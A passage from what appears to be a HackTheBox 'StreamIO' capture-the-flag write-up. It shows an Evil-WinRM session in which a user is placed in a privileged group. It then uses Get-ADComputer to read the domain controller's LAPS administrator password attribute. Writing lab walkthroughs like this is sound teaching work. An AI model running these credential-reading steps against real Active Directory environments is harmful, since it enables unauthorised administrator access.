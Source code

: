 `JDgodd now part of Core Staff`
```
*Evil-WinRM* PS C:\ProgramData> net user JDgodd
User name                    JDgodd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 2:56:42 AM
Password expires             Never
Password changeable          2/23/2022 2:56:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/11/2024 7:08:26 AM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *CORE STAFF
The command completed successfully.
```

###### `Local Administration Password Solution (LAPS)`
```
What is Microsoft LAPS? Microsoft's "Local Administrator Password Solution" (LAPS) **provides management of local administrator account passwords for domain-joined computers**. Passwords are randomized and stored in Active Directory (AD), protected by ACLs, so only eligible users can read it or request its reset.
```

we can now read the LAPS password from the `ms-MCS-AdmPwd` property on the computer object. 
```
*Evil-WinRM* PS C:\ProgramData> Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $user
DistinguishedName : CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
DNSHostName       : DC.streamIO.htb
Enabled           : True
Name              : DC
ObjectClass       : computer
ObjectGUID        : 8c0f9a80-aaab-4a78-9e0d-7a4158d8b9ee
SamAccountName    : DC$
SID               : S-1-5-21-1470860369-1569627196-4264678630-1000
UserPrincipalName :
```

